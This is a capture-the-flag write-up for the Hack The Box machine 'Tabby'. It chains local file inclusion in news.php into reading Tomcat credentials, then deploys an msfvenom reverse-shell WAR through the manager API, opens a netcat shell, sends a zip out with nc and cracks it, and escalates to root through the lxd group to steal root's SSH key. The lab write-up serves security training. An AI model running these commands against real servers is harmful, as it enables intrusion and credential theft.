

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></img></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.194 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.194`
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
```

## Web_server

* on `http://10.10.10.194` found email with host name

	  E-mail us : sales@megahosting.htb 

* add `megahosting.htb` in `/etc/hosts`
    * there is no diffrence

* found link- 
   * in a message on web page
	  
		 We have recently upgraded several services. Our servers are now more secure than ever. [Read our statement on recovering from the data breach](http://megahosting.htb/news.php?file=statement)
    * and navbar's `NEWS` tab also redirect to same link
	  
		  http://megahosting.htb/news.php?file=statement
	
* from that link, it seems `statement`is a filename passed as input to the parameter `file`of the page `news.php`.
* **LFI** test on the `news.php`
* try to view `/etc/passd` to test `LFI`

* **URL: **`http://megahosting.htb/news.php?file=../../../../etc/passwd`
	returns the `/etc/passwd` file
	
	  root:x:0:0:root:/root:/bin/bash
	  ...
	  ash:x:1000:1000:clive:/home/ash:/bin/bash
	  
	this verifies the **LFI vulnerability**

### Local File Inclusion (LFI)

* first i tried to check the `news.php` source code to understant whats is going on behind this `file` parameter

	`megahosting.htb/news.php?file=../news.php`

	  <?php
	  $file = $_GET['file'];
	  $fh = fopen("files/$file","r");
	  while ($line = fgets($fh)) {
	    echo($line);
	  }
	  fclose($fh);
	  ?>
    
    * there is a simple `file_get_contents` Filesystem Functions of PHP
    * reading php [file_get_contents doc](https://www.php.net/manual/en/function.file-get-contents.php)
        * file_get_contents — Reads entire file into a string
    * that means i can access any file that accessable from server using `LFI` but can not execute any remote code or `RFI`

* spending some time on `LFI` but don't file any intreting information except `/etc/passwd`

## Tomcat

* get default page on `http://10.10.10.194:8080/`
* from default page found some information
    * server is running `tomcat9`
    * file to Tomcat managing instance

		  http://10.10.10.194:8080/manager/html
		  http://10.10.10.194:8080/host-manager/html
		  
### manager

* require creds to access and through an error
* in the error 

	   You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp. 
	   
    * error indicate the file that contains the tomcat manager creds and i have `LFI` that means i can read that file.
    
* i try to google for tomcat file path and found [here](https://packages.debian.org/sid/all/tomcat9/filelist)

* file path is `/usr/share/tomcat9/etc/tomcat-users.xml`

	`http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml`
	
	  <role rolename="admin-gui"/>
	  <role rolename="manager-script"/>
	  <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
	  
#### creds
tomcat:$3cureP4s5w0rd123!

* but creds not worked for manager because the `username="tomcat"` user role is `roles="admin-gui"` not `roles="manager-gui"` which means I can’t access the manager webapp but can access to `host-manager` that found in default Tomcat page with `manager`

### host-manager

* using `tomcat:$3cureP4s5w0rd123!` login successful.
* there is **noting** and can't upload war file from here

### war file

* The tomcat user also have another role `roles="manager-script"`.

    * **manager-script** is allow access to the text-based web service located at /manager/text.
    * that means user `tomcat` can access to `manager` in test based
    * that means i can still upload war file from text based manager
    
* form text based manager user tomcat can upload war file using `deploy` command, found in [doc](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)

#### generate reverse shell war file
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=4141 -f war > shell.war`
```
Payload size: 13398 bytes
Final size of war file: 13398 bytes
Saved as: shell.war
```

#### upload `shell.war`
`curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/shell'`
```
OK - Deployed application at context path [/shell]
```
### shell as tomcat

* start netcat and trigger `shell` file from `http://10.10.10.194:8080/shell/`

	`curl 10.10.10.194:8080/shell/`
	
	`nc -lnvp 4141`

	  listening on [any] 4141 ...
	  connect to [10.10.15.151] from (UNKNOWN) [10.10.10.194] 58040
	  id
	  uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)

# user escalation

* **Shell Upgrade**

 	  id 
 	  uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
 	  python3 -c 'import pty;pty.spawn("bash")'    
 	  tomcat@tabby:/var/lib/tomcat9$ ^Z
 	  [1]+  Stopped                 nc -nvlp 4141
 	  rj@whoisrj:~/vulnBoxes/boxes/tabby$ stty raw -echo; fg
 	  nc -nvlp 4141
 	  
 	  tomcat@tabby:/var/lib/tomcat9$ reset
	  Terminal type? xterm
	  tomcat@tabby:~$ export SHELL=bash
	  tomcat@tabby:~$ export TERM=xterm-256color
	  tomcat@tabby:~$ stty rows 49 columns 234

* in `/var/www/html/files` there is a backup file owned by user `ash`

	  tomcat@tabby:/var/www/html/files$ ls -lsh
	   12K -rw-r--r-- 1 ash  ash  8.6K Jun 16 13:42 16162020_backup.zip                           

* **Load backup file in my local machine**

	  tomcat@tabby:var/www/html/files$ nc -w 4 10.10.15.151 4242 < 16162020_backup.zip
	  rj@whoisrj:~$ nc -nvlp 4242 > 16162020_backup.zip
	    
* **crack zip using fcrackzip**

	`fcrackzip 16162020_backup.zip -v -uDp /usr/share/wordlists/rockyou.txt`
	  
	  'var/www/html/assets/' is not encrypted, skipping
	  found file 'var/www/html/favicon.ico', (size cp/uc    338/   766, flags 9, chk 7db5)
	  'var/www/html/files/' is not encrypted, skipping
	  found file 'var/www/html/index.php', (size cp/uc   3255/ 14793, flags 9, chk 5935)
	  found file 'var/www/html/logo.png', (size cp/uc   2906/  2894, flags 9, chk 5d46)
	  found file 'var/www/html/news.php', (size cp/uc    114/   123, flags 9, chk 5a7a)
	  found file 'var/www/html/Readme.txt', (size cp/uc    805/  1574, flags 9, chk 6a8b)

	  PASSWORD FOUND!!!!: pw == admin@it

* zip have nothing intrested inside zip, but the password worked for user `ash`

### creds
`ash:admin@it`

## User ash
```
tomcat@tabby:/var/www/html$ su - ash
Password: admin@it
ash@tabby:~$ cat user.txt
4d43c7db************************
```

# Local Enumeration
```
ash@tabby:~$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

* user ash is in `lxd` group

## lxd/lxc

**LXD** is a next generation system container manager. It offers a user experience similar to virtual machines but using Linux containers instead.

* LXD isn't a rewrite of LXC, in fact it's building on top of LXC to provide a new, better user experience. Under the hood, LXD uses LXC through liblxc and its Go binding to create and manage the containers.
It's basically an alternative to LXC's tools and distribution template system with the added features that come from being controllable over the network.

**Learn from [here](https://linuxcontainers.org/lxd/introduction/)**

## lxd Privilege Escalation

* LXD is a root process that carries out actions for anyone with write access to the LXD UNIX socket. One of them is to use the **LXD API** to **mount the host’s root filesystem into a container.** 

* as user `ash` is in `lxd` group, user can load a lxd container and after that user can mount host's root filesystem inside the container and can access in host's root filesystem from the container.

* check if any container is loaded in the host,

	  ash@tabby:/tmp$ lxc list
	  +------+-------+------+------+------+-----------+
	  | NAME | STATE | IPV4 | IPV6 | TYPE | SNAPSHOTS |
	  +------+-------+------+------+------+-----------+

*There are currently no containers on the host*

### attack surface 

*i found two articles both with diffrent approach to lxc privesc,*
one form [hackingarticles.in](https://www.hackingarticles.in/lxd-privilege-escalation/),
another form [MONOC.com](https://blog.m0noc.com/2018/10/lxc-container-privilege-escalation-in.html?m=1)

*i use frist one*
* **create container image,**
    * for container image i use **Alpine image** because it is a light weight linux image that become handy in image uploading.
        * i found a **lxd-alpine-builder** script from github user [saghul](https://github.com/saghul/lxd-alpine-builder.git)
    * use that script to build a alpine image
    	* there is a another github tool that create lxc containers from lxc images yaml files
	    	* [distrobuilder](https://github.com/lxc/distrobuilder)
	    	* images yaml files found [here](https://github.com/lxc/lxc-ci/tree/master/images)
	
* **upload that image in the host.**
* **import in lxc and configure that image,**
* **mount root filesystem.**
* **run container instance.**

# Root Privesc

**Frist**, create a alpine image , it takes some time to download all packages

`./build-alpine`

	Determining the latest release... v3.12                                                  
	Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.12/main/x86_64
	...
	OK: 8 MiB in 19 packages 

after downloading completed a single tar file generated

	3.1M -rw-r--r-- 1 rj rj 3.1M Sep 14 15:25 alpine-v3.12-x86_64-20200914_1025.tar.gz

**Second**, upload using `wget`

	ash@tabby:~$ wget 10.10.15.151/alpine-v3.12-x86_64-20200914_1025.tar.gz
	...
	alpine-v3.12-x86_64-2 100%[===================>]   3.07M   28.4MB/s    in 0.1s     
	...
	ash@tabby:~$ ls -la alpine*
	-rw-rw-r-- 1 ash ash 3221262 Sep 14 14:25 alpine-v3.12-x86_64-20200914_1025.tar.gz


**Third**, import and configure the image into lxc

	ash@tabby:~$ lxc image import ./alpine-v3.12-x86_64-20200914_1025.tar.gz --alias ANYTHING
	ash@tabby:~$ lxc init ANYTHING pwned -c security.privileged=true
	Creating pwned
	ash@tabby:~$ lxc list                      
	+-------+---------+------+------+-----------+-----------+
	| NAME  |  STATE  | IPV4 | IPV6 |   TYPE    | SNAPSHOTS |
	+-------+---------+------+------+-----------+-----------+
	| pwned | STOPPED |      |      | CONTAINER | 0         |
	+-------+---------+------+------+-----------+-----------+
	ash@tabby:~$
	
**Forth**, mount host filesystem

	ash@tabby:~$ lxc config device add pwned mydevice disk source=/ path=/mnt/root recursive=true
	Device mydevice added to pwned
	ash@tabby:~$
	
**Fifth**, run image

	ash@tabby:~$ lxc start pwned
	ash@tabby:~$ lxc exec pwned /bin/sh
	~ # id
	uid=0(root) gid=0(root)
	~ # whoami
	root
	~ # cd /mnt/root
	/mnt/root # cd root/.ssh
	/mnt/root/root/.ssh # ls -la id_rsa
	-rw-------    1 root     root          2602 Jun 16 14:00 id_rsa

**Extra**, get ssh shell

`chmod 600 id_rsa`
	
`ssh -i id_rsa root@10.10.10.194`

	root@tabby:~# cat root.txt
	1b322db4************************